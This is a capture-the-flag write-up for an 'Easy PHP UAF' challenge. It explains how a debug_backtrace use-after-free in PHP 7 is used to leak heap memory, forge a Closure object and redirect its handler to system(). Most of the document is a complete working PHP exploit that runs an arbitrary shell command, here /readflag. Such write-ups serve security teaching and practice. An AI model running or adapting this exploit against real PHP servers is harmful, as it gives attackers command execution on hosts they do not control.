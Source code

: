 [中文](./README_zh.md) [English](./README.md)

[docker](./PHP-UAF.tar.gz)

# Easy PHP UAF WriteUps

## WriteUp:
This challenge is based on this exploit: https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php , which use a bug in debug_backtrace() function to cause a use-after-free vulnerability. With this vulnerability, we can leak and write PHP memory.

To solve this challenge, you need some knowledge about PHP source and a little about Pwn.

I do something to increase the difficulty of this challenge:

1. blocked loop functionality in lex_scan
2. limit recursion depth in extension
3. blocked strlen()

If you use gdb to debug and find out how the original exploit works, you will find that solution is so easy:

1. UAF, you can use the original exploit
2. leak the head point of next php heap, which can be used to compute the address of $helper and $abc
3. leak the address of Closure Object
4. write $helper -> a to make it a fake string which point to Closure Object
5. leak Closure Handlers from Closure Object and then compute the address of system
6. copy Closure Object to next php heap, change its address of internal_function.handler to system and write $helper -> b to make it point to this fake Closure Object
7. execute $helper -> b to execute system


## Exp:
```php
pwn("/readflag");

function pwn($cmd) {
    global $abc, $helper, $backtrace;
    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this -> a);
            $backtrace = (new Exception) -> getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }
    class Helper {
        public $a, $b, $c, $d;
    }
    function str2int($str) {
        $address = 0;
        $address |= ord($str[4]);
        $address <<= 8;
        $address |= ord($str[5]);
        $address <<= 8;
        $address |= ord($str[6]);
        $address <<= 8;
        $address |= ord($str[7]);
        return $address;
    }
    function leak($offset) {
        global $abc;
        return strrev(substr($abc, $offset, 8));
    }
    function leakA($offset) {
        global $helper;
        return strrev(substr($helper -> a, $offset, 8));
    }
    function write($offset, $data) {
        global $abc;
        $abc[$offset] = $data[7];
        $abc[$offset + 1] = $data[6];
        $abc[$offset + 2] = $data[5];
        $abc[$offset + 3] = $data[4];
        $abc[$offset + 4] = $data[3];
        $abc[$offset + 5] = $data[2];
        $abc[$offset + 6] = $data[1];
        $abc[$offset + 7] = $data[0];
    }
    function trigger_uaf($arg) {
        $arg = str_repeat('A', 79);
        $vuln = new Vuln();
        $vuln -> a = $arg;
    }
    # UAF
    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];
    $helper = new Helper;
    $helper -> b = function ($x) { };
    # leak head point of next php heap
    $php_heap = leak(0x88);
    echo "PHP Heap: " . bin2hex($php_heap) . "\n";
    $abc_address = str2int($php_heap) - 0x88 - 0xa0;
    echo '$abc: ' . dechex($abc_address) . "\n";
    $closure_object = leak(0x20);
    echo "Closure Object: " . bin2hex($closure_object) . "\n";
    # let a point to closure_object
    write(0x10, substr($php_heap, 0, 4) . hex2bin(dechex(str2int($closure_object) - 0x28)));
    write(0x18, str_pad("\x06", 8, "\x00", STR_PAD_LEFT));
    # leak Closure Handlers
    $closure_handlers = leakA(0x28);
    echo "Closure Handlers: " . bin2hex($closure_handlers) . "\n";
    # compute system address
    $system_address = dechex(str2int($closure_handlers) - 10733946);
    echo "System: " . $system_address . "\n";
    # build fake closure_object
    write(0x90, leakA(0x10));
    write(0x90 + 0x08, leakA(0x18));
    write(0x90 + 0x10, leakA(0x20));
    write(0x90 + 0x18, leakA(0x28));
    $abc[0x90 + 0x38] = "\x01";
    write(0x90 + 0x68, substr($php_heap, 0, 4) . hex2bin($system_address));
    # let b get this object
    write(0x20, substr($php_heap, 0, 4) . hex2bin(dechex(str2int($php_heap) + 0x08 - 0xa0)));
    # eval system
    ($helper -> b)($cmd);
    exit();
}
```

